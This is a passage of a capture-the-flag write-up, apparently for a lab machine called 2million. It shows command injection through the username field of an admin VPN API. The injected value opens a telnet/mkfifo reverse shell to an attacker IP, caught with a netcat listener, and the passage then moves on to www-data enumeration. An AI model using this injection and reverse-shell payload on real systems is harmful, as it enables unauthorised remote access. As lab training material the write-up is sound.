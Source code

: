 

Here it is! The server have executed our `curl` command. Through this technique, we can get a reverse shell:

1. Listening with `netcat`:

```
nc -lvp 4000
```

2. Making the server connect into our machine:

```shell
curl "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json" -d '{"username":"tandera; TF=$(mktemp -u);mkfifo $TF && telnet 10.10.14.38 4000 0<$TF | /bin/sh 1>$TF"}'
```

## Privilege Escalation

### Local Enumeration (www-data)

---

- id: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`
- system: `Ubuntu 22.04.2 LTS`
- users: `root`, `www-data` and `admin`
- kernel: `5.15.70-051570-generic`
- sudo: `not for www-data`

---

Our shell spawns on the default directory for the Apache server, `/var/www/html/`. This folder has all the web application. Scouring around, we find a file called `Database.php`, containing all the methods to interact with MySQL with Singleton. 

```php
class Database {
    // ...
    private static $database = null;
    public function __construct($host, $user, $pass, $dbName) {/* ... */}

    public static function getDatabase(): Database {/* ... */}
    public function connect() {/* ... */}

    public function query($query, $params = [], $return = true) {/* ... */}
}
```

Let's see who uses this module!

```shell
grep -r "Database" .
./index.php:$database = new Database($dbHost, $dbUser, $dbPass, $dbName);
# ...
```
